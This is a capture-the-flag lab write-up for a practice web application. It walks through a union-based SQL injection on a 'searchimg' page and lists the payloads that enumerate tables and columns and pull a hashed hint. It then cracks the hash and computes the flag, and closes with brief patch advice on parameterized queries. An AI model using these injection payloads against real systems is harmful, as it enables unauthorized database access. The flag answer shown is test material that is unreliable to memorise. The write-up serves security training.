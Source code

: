 # Exploit
1. Visit the URL: `/index.php?page=searchimg`.
2. This is similar to the SQL injection exploit in `search_member_sql_inj_error_based`, but without error-based SQL feedback.
3. Reuse similar queries to extract information about the database name, table name, and column names. Use the following queries:

1 union all select 1,database() --> Member_images 1 union all select 1,group_concat(table_name) from Information_schema.tables where table_schema=database() --> list_images 1 union all select 1,group_concat(column_name) from Information_schema.columns where table_name=0x6c6973745f696d61676573 --> id,url,title,comment 1 union all select 1,group_concat(comment,0x0a) from list_images --> If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

less
Toujours afficher les détails

Copier le code

4. Decrypt the MD5 hash using a service like [md5decrypt.net](https://md5decrypt.net), which gives: **albatroz**.
5. Compute the SHA-256 checksum for "albatroz":

```bash
echo -n albatroz | shasum -a 256
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188  -
The resulting flag is: f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188.
Patch
Prepare SQL statements using parameterized queries.
Sanitize user inputs by filtering special characters to prevent malicious inputs. """